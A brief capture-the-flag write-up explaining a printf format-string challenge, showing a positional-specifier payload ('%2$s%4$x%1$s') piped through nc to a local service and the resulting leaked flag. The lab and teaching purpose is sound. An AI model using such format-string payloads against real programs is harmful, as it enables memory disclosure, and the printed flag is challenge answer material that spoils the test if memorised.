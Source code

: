 # Writeup

With `printf`, we can specify what argument to print with `%m$`, where `m` is the argument number. `%2$s` will print the second argument as a string, for example.

To solve this:
```
$ python2 -c 'print "%2$s%4$x%1$s"' | nc 127.0.0.1 7777
Construct the flag like this:
1. print 2nd parameter on stack as a string
2. print 4th parameter on stack as a hexadecminal number
3. print 1st parameter on stack as a string
Name: Hello, TG16{f0rmat_strings_4re_c001_rait?}
```
